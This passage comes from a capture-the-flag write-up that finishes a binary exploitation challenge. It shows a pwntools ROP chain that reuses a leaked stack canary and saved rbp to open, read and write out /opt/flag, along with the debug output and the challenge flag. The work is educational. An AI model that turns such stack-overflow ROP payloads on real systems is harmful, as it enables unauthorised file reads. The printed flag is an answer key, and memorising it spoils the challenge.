 Output:
```
/opt/flag[*] connection received on socket 3
```

Forget the "connection received on socket" part,, It's the %d that prints out file descriptor.. And it is `3`! I should have just assumed ... At least I got to learn about `dprintf` which does printf formatting to a file descriptor. And got to practice searching for the proper xchg-gadget.. Good times!

## The actual actual solve continues

So finally let's just do open - read - write:

```python
rop.open(buffer,0)
rop.read(3, buffer, 34)
rop.write(4, buffer, 34)

io = start()
io.sendafter(b'> ', flat({ 0: b'/opt/flag\0', 0x48: p64(canary), 0x50: p64(rbp), 0x58: rop.chain()}))
io.interactive();
```

Output:
```
[*] Switching to interactive mode
[DEBUG] Received 0x2b bytes:
    b'/opt/flagEPT{1_gu3ss_y0u_c4n_s33_4ft3r_4ll}'
/opt/flagEPT{1_gu3ss_y0u_c4n_s33_4ft3r_4ll}[*] Got EOF while reading in interactive
$  
``` 

The flag is :tada: :checkered_flag: EPT{1_gu3ss_y0u_c4n_s33_4ft3r_4ll} :checkered_flag: :tada:


